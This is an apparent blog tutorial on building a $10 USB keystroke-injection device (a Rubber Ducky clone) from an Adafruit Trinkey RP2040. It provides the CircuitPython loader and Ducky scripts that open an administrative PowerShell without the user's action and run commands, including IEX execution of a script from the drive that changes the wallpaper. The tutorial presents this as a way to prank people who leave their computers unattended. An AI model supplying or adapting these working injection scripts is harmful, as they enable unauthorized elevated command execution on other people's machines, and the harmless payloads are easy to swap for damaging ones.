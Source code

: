 Ever wanted to prank someone by changing their wallpaper or running a script when they walk away from their computer? It's a lot easier than you think! I will show you how to create your own USB Rubber Ducky for just \$10, a fraction of the cost of Hak5's \$70 Rubber Ducky!

We'll use the **Adafruit Trinkey QT2040 - RP2040** and CircuitPython to make a fully functional "keyboard injection" tool that can automate tasks, execute scripts, and more.

---
## Materials You'll Need

1. [Adafruit Trinkey QT2040 - RP2040](https://www.adafruit.com/product/5056)
2. A computer with USB ports.
3. Basic programming tools like a text editor.

---

## Step 1: Set Up CircuitPython

1. **Download CircuitPython**  
    Visit the [Adafruit CircuitPython page](https://circuitpython.org/board/adafruit_qt2040_trinkey/) and download the latest `.uf2` file for the QT2040 Trinkey.  (**9.2.1**)
    ![CircuitPython Download](image1.png)
    
2. **Put the Trinkey into Bootloader Mode**
    - Hold down the **BOOT/BOOTSEL** button (red in the image below).
![[buttons.jpg]]
    - While holding, press and release the **Reset** button (blue) and connect the Trinkey to your computer.
    - Continue holding the **BOOT/BOOTSEL** button until the `RPI-RP2` drive appears.  
        ![Bootloader Mode](image2.png)
3. **Copy the `.uf2` File**  
    Drag and drop the `.uf2` file that you downloaded earlier onto the `RPI-RP2` drive. The device will restart, and you should now see a new drive labeled `CIRCUITPY`.  
    ![Drive Ready](image3.png)
    
4. **Prepare for Coding**
    - If you are missing a file named `code.py` on the `CIRCUITPY` drive, create it.
    - If you are missing a folder named `lib` inside the `CIRCUITPY` drive, create it.  
    - Create a folder named `scripts` inside the `CIRCUITPY` drive for our scripts.
	![[image.png]]

---

## Step 2: Safe Mode

By default, the USB will try to run code every time you plug it in to a device (duh!). While we work on it we don't want this, because it will also run anytime one of it's files changes. To bypass this, when you plug in the device click the `RESET` button twice and the device should flash yellow 3 times, signaling it is in Safe mode. If you need a refresher on which button that is, please look at Step 1 again.

---

## Step 3: Install Necessary Libraries

1. Download the **CircuitPython 9.x Library Bundle** from [Adafruit Libraries](https://circuitpython.org/libraries).
2. Extract the bundle and copy these files to your `CIRCUITPY` drive, place both folder and file in `lib`:
    - **`adafruit_hid`** folder (for USB HID functionality)
    - **`adafruit_ducky.mpy`** (for Rubber Ducky script support)

or [Download my premade bundle for 9.x](https://blog.sstock.dev/downloads/bundle.zip)

---

## Step 4: Write our `code.py`

Open the `code.py` file and paste in the following Python code:

```python
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keyboard import Keyboard
import adafruit_ducky
import usb_hid
import time

time.sleep(1)

keyboard = Keyboard(usb_hid.devices)
keyboard_layout = KeyboardLayoutUS(keyboard)

duck = adafruit_ducky.Ducky("scripts/ducky.txt", keyboard, keyboard_layout)

while True:
    result = duck.loop()
    if not result:
        break
```

**Code Explanation**
We first import the libraries we installed when we copied over the files to `lib`. Then we have the USB sleep for a second to let it boot up. We create a `Keyboard` object and a `KeyboardLayoutUS` from the `Keyboard` object. We can then create a `Ducky` object from those two, and we point it to where our ducky script will be on the drive.

Now that we have our variables, we then loop through the ducky script line by line until the script ends!

---

## Step 5: Writing the Ducky Script

1. Create a new text file named `ducky` inside of our `scripts` folder on the `CIRCUITPY` drive and paste this in:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING echo "you've been hacked!" > ([Environment]::GetFolderPath("Desktop") + "\hacked.txt"); exit;
ENTER
```
2. This script opens an administrative PowerShell session on Windows 11 and creates a text file on the desktop named `hacked`. This takes about ~5 seconds to execute on my laptop.
![Ducky Script Showcase](video1.mp4)

Try it out! Unplug your USB and plug it back in to see it work!

---

## Advanced Use Case: Changing the Wallpaper

Now that you've had a taste! Let's try doing some funny PowerShell stuff!

Find a funny image you want to make your friends wallpaper. I'm going to use this one:
![[wallpaper.jpg]]

Create a new folder on your `CIRCUITPY` called `resources` and put your image there! Make sure it's named `wallpaper.jpg`.
### Step 1: PowerShell Time!

Create a new text file in `scripts` called `iexscript.txt` on the `CIRCUITPY` drive and paste the following in:

```powershell
$WallpaperPath = ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\resources\wallpaper.jpg")

Add-Type @"
using System.Runtime.InteropServices;
public class Wallpaper {
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
"@

[Wallpaper]::SystemParametersInfo(0x0014, 0, $WallpaperPath, 0x01 -bor 0x02)
exit
```

**Code Explanation**
This is a simple PowerShell script that we are going to call with our ducky script! It creates a C# object that contains code to replace a user's wallpaper and then calls it in PowerShell!
### Step 2: Back to `ducky.txt`!

Open your `ducky.txt` inside of your `scripts` folder in the `CIRCUITPY` drive, delete what you have and paste in the following:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING IEX (Get-Content ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\scripts\iexscript.txt") -Raw);
ENTER
```

This code will (again) open an administrative PowerShell, but this time it will use `IEX`. Essentially `IEX` will execute the statement after it, and the whole `Get-Content` thing basically finds our cool `iexscript.txt` file on our USB and give it to `IEX` and `IEX` runs it! **Make sure you have a `resources` folder and a `wallpaper.jpg` file inside of it or this script will not work!**

Try it out! Unplug your USB and plug it in to see it work!

![Wallpaper Showcase](video2.mp4)

---

Congratulations! You're now a master hacker and can prank your friends by changing their wallpaper!

---

Please reach out to me if you have any comments or feedback! Contact: [sstock2005.business@gmail.com](mailto:sstock2005.business@gmail.com)